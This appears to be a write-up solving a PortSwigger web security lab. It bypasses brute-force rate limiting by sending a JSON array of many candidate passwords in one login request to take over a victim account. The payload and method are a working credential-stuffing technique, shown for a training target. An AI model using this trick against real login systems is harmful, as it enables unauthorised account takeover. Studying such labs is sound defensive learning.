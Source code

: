 # Lab: Broken brute-force protection, multiple credentials per request
This lab is vulnerable due to a logic flaw in its brute-force protection. To solve the lab, brute-force Carlos's password, then access his account page.

- Victim's username: carlos
- [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)


## Solution
This lab uses kinda different anti brute-force techniques. Probably a user rate limiting based on the rate of HTTP request sent from the users IP. Just iterating all password won't success here.

But if we take a closer look into the POST request of the login, we notice that the application uses a different approach to POST the login data:
```json
{
    "username":"test",
    "password":"test"
}
```
It uses a JSON statement.

So we could try to just give an array with all password from the list as the value of 'password':
```json
{
    "username":"carlos",
    "password":[
        "123456",
        "password",
        "12345678",
        "qwerty",

        [...]
    ]
}
```

We get a 302 message:
![Response](images/Broken_brute-force_protection_multiple_credentials_per_request_0.png)

As we often saw in labs with this application, this means that we hit a correct login. If we right click the response and pick 'Show response in browser', we will get to the logged in prompt of the user. So we successfully tested several passwords with a single request.

The lab is solved at this point.
